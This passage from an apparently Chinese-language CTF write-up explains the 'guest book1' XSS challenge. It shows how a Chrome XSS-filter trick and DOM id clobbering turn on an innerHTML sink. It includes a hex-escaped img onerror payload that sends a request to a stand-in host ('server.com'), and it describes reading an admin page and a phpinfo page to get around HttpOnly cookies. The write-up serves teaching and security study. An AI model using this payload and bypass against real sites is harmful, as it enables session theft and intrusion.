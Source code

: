 ```python
    if 'die' not in response.content:
        print response.content
        break
```

guest book1
-----------
这个题利用了chrome浏览器的两个特点，还是相当好的题目。

 - 使用chrome xss filter使部分js失效（和alictf一个题目类似，参考 http://linux.im/2015/03/29/alictf-2015-xss400.html）
![QQ20160315-1@2x.png][3]

如果url是`/ctf/test.html?a=%3Cscript%3Evar%20debug=false;%3C/script%3E`

![QQ20160315-2@2x.png][4]
 - dom中存在对应的id的元素的时候，如果js中没有定义的这个变量，那这个变量就是dom节点
![chrome-dom.png][5]

因为显示页面的代码如下，其中`$MESSAGE`会被去掉尖括号、引号等

```js
<script>var debug=false;</script>
<div id="$USERNAME">
    <h2>$USERNAME</h2>
</div>
<div id="text"></div>
<script>
    data = "$MESSAGE"
    t = document.getElementById("text")
    if(debug){
        t.innerHTML=data
    }else{
        t.innerText=data
    }
</script>
```

所以需要
 - url带上<script>var debug=false;</script>，可控的就是secret
 - `$USERNAME`写`debug`
 - `$MESSAGE`使用十六进制编码，绕过过滤，因为输入在js变量中，所以js会自动转义的。比如`<img src=x onerror="(new(Image)).src='http://server.com/xxx/'>`需要转义为`\x3cimg src=x onerror=\x22(new(Image)).src=\x27http://server.com/xxx/\x27\x3e`

xss成功，可以看到一次访问，referer是`http://127.0.0.1:8888/admin/show.php`，但是没有cookies，题目说flag在cookie里面，而cookie是http only的，怎么去获取呢？

用js尝试获取了一下`admin/show.php`的html，也就是`document.getElementsByTagName("html")`，发现页面有提示，就又访问了一个phpinfo页面获取到了flag。

  [1]: https://crypto.stanford.edu/dns/
  [2]: https://dn-virusdefender-blog.qbox.me/2016/2448463110.zip
  [3]: http://storage.virusdefender.net/blog/images/685/3.png
  [4]: http://storage.virusdefender.net/blog/images/685/4.png
  [5]: http://storage.virusdefender.net/blog/images/685/5.png
